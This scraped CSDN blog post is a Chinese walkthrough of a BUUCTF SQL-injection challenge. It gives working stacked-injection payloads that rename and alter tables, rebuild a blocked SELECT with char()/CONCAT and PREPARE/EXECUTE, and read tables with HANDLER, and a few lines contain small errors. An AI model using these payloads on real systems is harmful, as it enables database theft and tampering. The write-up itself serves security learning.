







<!--yml
category: 未分类
date: 2022-04-26 14:55:00
-->

# mysql_char ctf_buuctf_sql注入_随便注1_折柳为信的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_34299849/article/details/113970675](https://blog.csdn.net/weixin_34299849/article/details/113970675)

题目：随便注1

知识点：

渗透相关知识：

1.堆叠注入

2.猜解查询语句

3.闭合sql语句的测试方法

常规的sql语句：

1.desc table：显示表结构

2.show tables/show tables：显示所有表

预处理语句：

1.set 变量名=xxx：创建变量

2.concat()：可以拼接绕过字符过滤，执行sql方法，制造出目标的字符串

3.prepare 语句名=字符串名：预处理，字符串赋值给语句并执行

4.excute 语句名：执行prepare创建出的语句

题面：

解题步骤：

1.直接提交1，返回了一个php数组形式的返回值，说明有回显。

2.尝试使用 '、"、]、) 等闭合sql语句，发现单引号引起报错，

3.尝试万能密码‘ or 1=1#,根据回显内容，发现flag不在当前所在的表中，这说明需要利用注入语句切换当前所在的表。

4.首先查询所有的表名，1';desc tables;#; 发现当前库中存在两个表

5.分别查看两个表结构

1';desc `1919810931114514`;#

1';desc `words`;#

发现flag存在于表1919810931114514中

6.现在目标明确，要查询表1919810931114514中的flag

1';select * from `1919810931114514`;#

执行后发现存在过滤，无法使用select。

7.到这一步为止可以有多种解法

法一:

对查询语句进行猜解,猜测查询语句如下：

select * from `words` where id = '$inject';

或者

select id,data from `words` where id='$inject';

如此看来目前我们要查询1919810931114514表，而目前可利用的select语句执行在words表，且无法使用堆叠注入执行新的select语句，这就陷入了死循环。

重新分析一下，已有的select语句其实在本题中是可以多次执行的，每次执行不影响表结构，其功能是查询words表中的全部内容。所以我们如果能想办法利用一个堆叠注入将1919810931114514表中的内容转移到words中，然后再使用一次万能密码(’or 1=1#)，就可以得到flag。

复制语句大概长这样

insert into `words` select * from `1919810931114514`

不行insert肯定会被过滤掉，换个思路，其实我还可以把1919810931114514表名改了。

说搞就搞。

1';rename table `words` to `meiyong`;rename table `1919810931114514` to `words`;#

搞砸了，大概是没有加表名没有``,再来一次，返回结果有变化，但仍然是报错。报错内容提醒我，1919810931114514中本身没有id列，会翻车。

重置环境重来，把flag列名改成id，执行没有回显，说明语句顺利执行了。

1';rename table `words` to `meiyong`;rename table `1919810931114514` to `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) ;#

接着再执行万能密码，得到flag。

1‘or 1=1;

法二:

我们知道只要绕过select语句，即可查询到目标表。这里可以预定义一个语句，利用concat拼接，然后执行查询目标。可以作为通法值得研究。我尝试的方法有两种：

(1).利用char()绕过

1';SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");PREPARE sqla from @sql;EXECUTE sqla;#

解析：

#闭合前面的语句

1';

#利用concat拼接出目标语句,char()方法绕过select

SET @sql=concat(char(115,101,108,101,99,116)," * from `1919810931114514`");

#利用prepare预定义一个语句，并将它赋给 sqla

PREPARE sqla from @sql;

#执行预定义的语句

EXECUTE sqla;#

(2).利用拼接绕过

payload：

1';

set @sql=CONCAT('se','lect * from `1919810931114514`;');

prepare stmt from @sql;

execute stmt;

解析：

#闭合前面的语句

1';

#利用concat拼接出目标语句，拼接绕过select

set @sql=CONCAT('se','lect * from `1919810931114514`;');

#利用prepare预定义一个语句，并将它赋给 sqla

PREPARE sqla from @sql;

#执行预定义的语句

EXECUTE sqla;#

下面是一段常见的存储过程可以参考语法，理解为什么存储过程要有set、prepare、execute 几步。

set @_sql = 'select ? + ?';

set @a = 5;

set @b = 6;

PREPARE stmt from @_sql; // 预定义sql

EXECUTE stmt USING @a,@b;// 传入两个会话变量来填充sql中的 ?

法三：

利用handler语句

该方法直接摘自大佬

mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

HANDLER tbl_name OPEN [ [AS] alias]

# 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)

[ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }

[ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name READ { FIRST | NEXT }

[ WHERE where_condition ] [LIMIT ... ]

# 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。

HANDLER tbl_name CLOSE

# 关闭打开的句柄。

payload：

1';

handler `1919810931114514` open;

handler `1919810931114514` read first;-- +

总结：在监工短短的督促下，这道题的总结终于东拼西凑写完了。我还很菜，文章中内容很多都是摘自大佬们，其中有些知识点我的理解也许不对，不确定的这部分我写的比较繁琐详细，希望能与大家交流。